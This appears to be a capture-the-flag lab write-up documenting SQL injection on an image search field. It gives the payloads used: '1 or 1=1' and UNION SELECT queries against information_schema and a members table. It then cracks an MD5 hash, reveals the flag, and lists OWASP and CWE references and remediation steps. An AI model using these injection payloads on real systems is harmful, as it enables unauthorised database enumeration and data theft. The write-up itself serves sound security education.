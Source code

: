 # Finding 02 - SQL injection on image searching input field


## Exploitability
Easy. Only 2 steps required : inject code in input field, then decrypt md5 using easy-to-find web tool.


## Risk level/type
OWASP top 10 :
- A02:2021 – Cryptographic Failures
	=> "Are deprecated hash functions such as MD5 or SHA1 in use [...] ?"
- A03:2021 – Injection
	=> "Hostile data is directly used or concatenated. The SQL or command contains the structure and malicious data in dynamic queries, commands, or stored procedures."
	=> "User-supplied data is not validated, filtered, or sanitized by the application."


Common Weakness Enumeration :

CWE-327: Use of a Broken or Risky Cryptographic Algorithm
https://cwe.mitre.org/data/definitions/327.html

CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')
https://cwe.mitre.org/data/definitions/89.html

CWE-20: Improper Input Validation
https://cwe.mitre.org/data/definitions/20.html


## Detailed description of the exploit
First check whether input field is protected against SQL injections by typing:
```1 or 1=1```
This yields 5 elements, seemingly from a SQL database. The last one being :

```
ID: 5 
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```
Checking the URL gives no result


Then, try more advanced SQL injection with the following two commands:
```1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables```
and
```1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns ```
The results are copied in database_table_schema and database_table_columns files.
At the bottom of each listing, there are fields that seem to be user-generated (the only few names not fully capitalized)
The names can be found in the database_listing.md file.

From this info, we try another SQL injection command :
```1 and 1=1 UNION SELECT url, title from Member_images.list_images```
which yields :
```
ID: 1 and 1=1 UNION SELECT url, title from Member_images.list_images 
First name: borntosec.ddns.net/images.png
Surname : Hack me ?
```

And one last SQL injection command :
```1 and 1=1 UNION SELECT id, comment from Member_images.list_images```
which yields :
```
ID: 1 and 1=1 UNION SELECT id, comment from Member_images.list_images 
First name: 5
Surname : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

This code seems to be hashed with md5, so let's try to decrypt it with the following website :
https://www.md5online.org/md5-decrypt.html

It works ! And yields the following :
albatroz
To encrypt it with sha256, we can use the command:
```echo -n "albatroz" | sha256sum```
The flag is:
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188


## Remediation
Input sanitizing is the first step.
There are several ways to sanitize the input, depending on the code architecture (legacy).
The first step is to use prepared statements with parameterized queries
	-> this means that the query would not be evaluated as a command but as a string, looking for an exact match to the string (i.e. a username matching "1 or 1 = 1")
For legacy code, you can also escape all the user input before putting it in a query.

Also, md5 is now deprecated in favor of sha2 algorithms (sha256, sha512) as well as sha3 algorithms.


## Additional resources
https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html

https://cheatsheetseries.owasp.org/cheatsheets/Database_Security_Cheat_Sheet.html

md5 deprecation notice :
https://www.security-database.com/detail.php?alert=VU836068